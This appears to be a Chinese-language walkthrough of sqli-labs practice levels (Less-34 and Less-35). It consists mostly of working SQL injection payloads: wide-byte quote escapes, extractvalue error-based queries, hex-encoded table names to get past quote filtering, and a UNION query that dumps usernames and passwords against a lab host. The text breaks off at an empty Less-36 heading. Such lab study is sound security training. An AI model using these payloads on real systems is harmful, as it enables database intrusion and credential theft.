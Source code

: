 ### 报错注入

暴库

```
uname=admin%df' and extractvalue(1,concat(0x23,database(),0x23))--+&passwd=admin&submit=Submit
```

暴表

```
uname=admin%df' and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x23))--+&passwd=admin&submit=Submit

uname=admin%df' and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x23))--+&passwd=admin&submit=Submit
```

暴列名

**使用十六进制编码就可以绕过了''使用0x 代替，users 使用十六进制编码得到7573657273，构造为0x7573657273**

```
uname=admin%df' and extractvalue(1,concat(0x23,(select column_name from information_schema.columns where table_schema=database() and table_name=0x7573657273 limit 1,1),0x23))--+&passwd=admin&submit=Submit

uname=admin%df' and extractvalue(1,concat(0x23,(select column_name from information_schema.columns where table_schema=database() and table_name=0x7573657273 limit 2,1),0x23))--+&passwd=admin&submit=Submit
```

暴字段

```
uname=admin%df' and extractvalue(1,concat(0x23,(select username from users order by id limit 2,1),0x23))--+&passwd=admin&submit=Submit
```



# Less-35

加个单引号

```
http://daishen.ltd:1112/Less-35/?id=1'
```

id周围没有单引号或双引号，现在就明白题目的标题了，不需要要过，直接注入

```
http://daishen.ltd:1112/Less-35/?id=-1%E3' union select 1,2,group_concat(username,0x3a,password) from users --+
```

# Less-36
